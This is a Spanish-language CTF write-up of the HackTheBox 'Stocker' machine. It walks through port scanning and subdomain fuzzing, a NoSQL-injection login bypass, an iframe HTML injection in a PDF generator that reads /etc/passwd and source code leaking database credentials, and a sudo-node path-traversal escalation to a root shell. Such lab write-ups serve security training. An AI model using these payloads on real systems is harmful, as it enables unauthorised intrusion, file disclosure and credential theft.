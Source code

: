 - Tags: #linux #nosql #htmlinjection #nodejs #pathtraversal #express

------------
## Enumeración
----------

- Identificación de SO:
  
```bash
ping -c 1 10.10.11.196
```
![Pastedimage20240831133115.png](/Imagenes/Stocker/Pastedimage20240831133115.png)

Como vemos según lo que nos indica el `ttl` es una maquina `Linux`

- Identificación de puertos abiertos en la maquina:
  
```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.196 -oG allPorts
```

- Identificación de servicios corriendo en los puertos abiertos:
```bash
nmap -p22,80 -sCV 10.10.11.196 -oN targeted
```

![Pastedimage20240831133708.png](/Imagenes/Stocker/Pastedimage20240831133708.png)

- Al ver que hay un puerto 80 con el servicio `http` corriendo por debajo podemos lanzar el siguiente script de nmap:
```bash
nmap -p80 --script="http-enum" 10.10.11.196 -oN webScan
```

- Para ver información básica sobre la web que hay corriendo por el servidor:
```bash
whatweb http://stocker.htb/
```

![Pastedimage20240831134053.png](/Imagenes/Stocker/Pastedimage20240831134053.png)

-----------------
## Fuzzing
------------

- Miramos si hay subdominios:
```bash
wfuzz -c -t 200 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.stocker.htb" http://stocker.htb/
```

![Pastedimage20240831134343.png](/Imagenes/Stocker/Pastedimage20240831134343.png)

Como hemos visto hemos encontrado un subdominio en el que vamos a mirar que es lo que hay dentro de el y haremos un poco de enumeración.

![Pastedimage20240831134725.png](/Imagenes/Stocker/Pastedimage20240831134725.png)

-------
## Explotación
--------------------

Como podemos observar el nuevo `subdominio` es un panel de login, podemos probar varios tipos de técnicas para poder bypassearlo o identificación de vulnerabilidades como lo siguiente:
- Probar passwords por defecto
- SqlIjection
- NoSQLInjection

**De primeras lo que tenemos que hacer al ver `Express` & `NodeJs` es interceptar la petición con `burpsuite` y ver si podemos mandar peticiones en `JSON`**

`Cuando una aplicacion esta construida con NodeJs y Express normalmente estan construidas sobre bases de datos diferentes a MySql, como por ejemplo PostgreSQL y MongoDB, estas dos son bases de datos no relacionales, por lo que podemos hacer Inyecciones SQL para bypassear el panel de Login`

- Antes tenemos que cambiar el `Conten-Type:` `application/json`
- Payload:
  
```bash
{"username": {"$ne": null}, "password": {"$ne": null} }
```

Una vez que hemos bypasseado el panel de Login empezamos a indagar un poco en la pagina web para encontrar vulnerabilidades que podemos encontrar.

---------------
## HTML INJECTION
-------------------

**A la hora de crear un pedido nos crea un archivo pdf, si nosotros lo capturamos con Burpsuite a la hora de la creación del archivo pdf podemos comprobar que podemos modificar los elementos que hay dentro del pdf, dentro de todos estos elementos el que nos importa a nosotros es el `titulo`, el que se muestra por pantalla básicamente.**

**Por lo general los generadores de PDF pueden renderizar etiquetas html, lo que nos abre una posibilidad de hacer una inyeccion html.**
**Hemos intentado inyectar unas etiquetas `<script>` dentro del pdf, al darle a recargar el servidor devuelve un error interno, lo que significa que intento representar las etiquetas pero fallo.**

**Teniendo en cuenta la información anterior, es posible que podamos cargar el generador de PDF y mostrar archivos del sistema mediante `iframes`. Considere la siguiente carga útil HTML.**

- Payload:
  
```bash
<iframe src='file:///etc/passwd' width='1000' height='1000'></iframe>
```

`iframes, o Inline Frames, son elementos HTML que pueden cargar otra página HTML dentro de la misma documento. El atributo src es el origen del contenido del servidor externo o interno.`

- Ejemplo practico en `Burpsuite`:
![Pastedimage20240831141423.png](/Imagenes/Stocker/Pastedimage20240831141423.png)

Al recargar veremos el documento pdf generado...

![Pastedimage20240831141651.png](/Imagenes/Stocker/Pastedimage20240831141651.png)

Como vemos tenemos un LFI en el que podemos listar archivos internos del servidor, lo próximo que tendríamos que hacer es buscar algún archivo que nos proporcione credenciales como algún `id_rsa` o algún archivo de configuración del servidor.

---------------
## Wildcard Injection
-------------

**Sin embargo, nos encontramos con un problema, que es que no sabemos dónde está la aplicación de desarrollo situado. Un truco fácil que podemos usar para determinar potencialmente esta ubicación es enviar JSON con formato incorrecto en uno de los puntos de conexión de la aplicación para ver si produce un error. Usemos el punto de conexión de compra como lo hicimos previamente. Para hacer esto podemos atrapar otra solicitud en Burp y quitar uno de los corchetes }. Después Al quitar el corchete y enviar la solicitud, obtenemos el siguiente mensaje de error.**

![Pastedimage20240831142307.png](/Imagenes/Stocker/Pastedimage20240831142307.png)

**A partir del error, podemos ver que la aplicación está alojada en la carpeta `/var/www/dev/` y dado que se trata de un `NodeJS` podemos intentar leer varios nombres de archivo predeterminados para encontrar la función principal de la aplicación aplicación. Por lo general, esto se denomina `index.js` o `main.js` o incluso `server.js`.**

- Hacemos lo mismo con `Burpsuite` aplicando otro payload:
  
```bash
<iframe src='file:///var/www/dev/index.js' width='1000' height='1000'></iframe>
```

- Nos devuelve el siguiente archivo de configuracion del servidor:
  
```bash
const express = require("express");
const mongoose = require("mongoose");
const session = require("express-session");
const MongoStore = require("connect-mongo");
const path = require("path");
const fs = require("fs");
const { generatePDF, formatHTML } = require("./pdf.js");
const { randomBytes, createHash } = require("crypto");
const app = express();
const port = 3000;
// TODO: Configure loading from dotenv for production
const dbURI = "mongodb://dev:IHeardPassphrasesArePrettySecure@localhost/dev?
authSource=admin&w=1";
```

**Como hemos visto anteriormente el usuario era `angoose` y la password como vemos es `IHeardPassphrasesArePrettySecure`**

------------
## Conexión SSH
------------

```bash
ssh agoose@10.10.11.196
```

----------
## Escalada de Privilegios
-------------

```bash
sudo -l
```

![Pastedimage20240831142949.png](/Imagenes/Stocker/Pastedimage20240831142949.png)

**Lo que nos esta diciendo es que el usuario angoose puede ejecutar node como `sudo` ejecutando un script de la ruta `/usr/local/scripts/*.js`**

Por lo que podemos hacer lo siguiente, con el siguiente `payload` podemos ejecutar node e iniciar una shell como `root`:

```bash
sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```

Como solo podemos ejecutar scripts de la ruta `/usr/local/scripts` podemos probar a en el directorio `/tmp` crear el siguiente script y ejecutar el siguiente comando:

- shell.js

```bash
require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})
```
- Comando:

```bash
sudo node /usr/local/scripts/credentials.js/../../../../../../tmp/shell.js
```

**Lo que estamos realizando es un `path traversal` y estamos bypasseando que solo se puedan ejecutar scripts de dicha ruta.**
